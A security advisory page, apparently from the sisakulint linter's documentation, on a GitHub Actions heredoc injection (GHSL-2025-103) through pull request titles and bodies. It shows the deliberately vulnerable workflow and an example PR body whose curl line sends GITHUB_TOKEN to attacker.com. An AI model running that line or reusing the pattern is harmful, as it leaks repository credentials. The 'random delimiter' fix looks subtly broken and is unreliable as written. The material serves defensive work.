

# GHSL-2025-103: Code Injection via PR Title and Body

## Summary

| Item | Value |
|------|-------|
| Advisory ID | GHSL-2025-103 |
| Severity | Critical |
| Affected Component | acl-org/acl-anthology |
| CVE | N/A |
| CWE | CWE-78 (OS Command Injection) |
| Reference | https://securitylab.github.com/advisories/GHSL-2025-102_GHSL-2025-103_acl-anthology/ |

## Vulnerability Description

GHSL-2025-103 is a code injection vulnerability in the `print-info.yml` workflow. The vulnerability occurs when the PR title and body are directly interpolated into a heredoc without sanitization. An attacker can inject the heredoc delimiter to escape and execute arbitrary commands.

## Attack Vector



## Vulnerable Code Pattern

```yaml
name: Print Info (Vulnerable)

on:
  pull_request_target:
    types: [opened]
  workflow_dispatch:

permissions:
  contents: write

jobs:
  print-info:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4

      # VULNERABLE: PR title and body directly interpolated in heredoc
      - name: Print PR Info
        run: |
          cat << 'END_OF_BLOCK'
          PR Title: ${{ github.event.pull_request.title }}
          Original PR Body: ${{ github.event.pull_request.body }}
          END_OF_BLOCK
```

### Exploitation Example

PR Body:
```
Normal text here
END_OF_BLOCK
curl https://attacker.com/steal?token=$GITHUB_TOKEN
cat << 'END_OF_BLOCK'
```

Resulting shell script:
```bash
cat << 'END_OF_BLOCK'
PR Title: Some Title
Original PR Body: Normal text here
END_OF_BLOCK
curl https://attacker.com/steal?token=$GITHUB_TOKEN
cat << 'END_OF_BLOCK'
END_OF_BLOCK
```

## sisakulint Detection

sisakulint detects this vulnerability with the `code-injection-critical` rule:

```
script/actions/ghsl/ghsl-2025-103.yaml:26:24: code injection (critical):
"github.event.pull_request.title" is potentially untrusted and used in a
workflow with privileged triggers. [code-injection-critical]

script/actions/ghsl/ghsl-2025-103.yaml:27:32: code injection (critical):
"github.event.pull_request.body" is potentially untrusted and used in a
workflow with privileged triggers. [code-injection-critical]
```

## Remediation

### Option 1: Use Environment Variables (Recommended)

```yaml
- name: Print PR Info
  env:
    PR_TITLE: ${{ github.event.pull_request.title }}
    PR_BODY: ${{ github.event.pull_request.body }}
  run: |
    echo "PR Title: $PR_TITLE"
    echo "PR Body: $PR_BODY"
```

### Option 2: Use GitHub Script

```yaml
- uses: actions/github-script@v7
  with:
    script: |
      const title = context.payload.pull_request.title;
      const body = context.payload.pull_request.body;
      console.log(`PR Title: ${title}`);
      console.log(`PR Body: ${body}`);
```

### Option 3: Use Random Delimiter

```yaml
- name: Print PR Info
  env:
    PR_BODY: ${{ github.event.pull_request.body }}
  run: |
    DELIMITER=$(openssl rand -hex 16)
    cat << "$DELIMITER"
    $PR_BODY
    $DELIMITER
```

## Auto-Fix Support

sisakulint provides auto-fix for this vulnerability:

```bash
sisakulint -fix on script/actions/ghsl/ghsl-2025-103.yaml
```

## Test Files

- Vulnerable pattern: `script/actions/ghsl/ghsl-2025-103.yaml`

## Related Advisory

- [GHSL-2025-102](./GHSL-2025-102.md): Similar vulnerability in `link-to-checklist.yml`

## References

- [GitHub Security Lab Advisory](https://securitylab.github.com/advisories/GHSL-2025-102_GHSL-2025-103_acl-anthology/)
- [Bash Heredoc Security](https://mywiki.wooledge.org/HereDocument)
